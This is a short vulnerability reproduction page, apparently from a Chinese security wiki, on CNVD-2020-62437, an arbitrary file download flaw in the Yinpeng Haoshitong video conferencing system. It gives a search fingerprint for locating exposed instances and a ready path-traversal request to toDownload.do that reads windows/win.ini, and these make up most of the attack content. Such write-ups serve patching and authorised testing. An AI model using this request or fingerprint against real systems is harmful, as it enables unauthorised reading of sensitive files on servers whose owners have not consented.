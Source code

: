 # Yinpeng Cloud Computing Haoshitong Video Conferencing System Any file download CNVD-2020-62437

## Vulnerability Description

Yinpeng Cloud Computing Haoshitong Video Conferencing System There is any file download, and attackers can obtain sensitive information through vulnerabilities

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yinpeng Cloud Computing Haoshitong Video Conferencing System</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Hanming-Video-Conferencing"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160033985.png)



The vulnerability is

```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160033783.png)



## 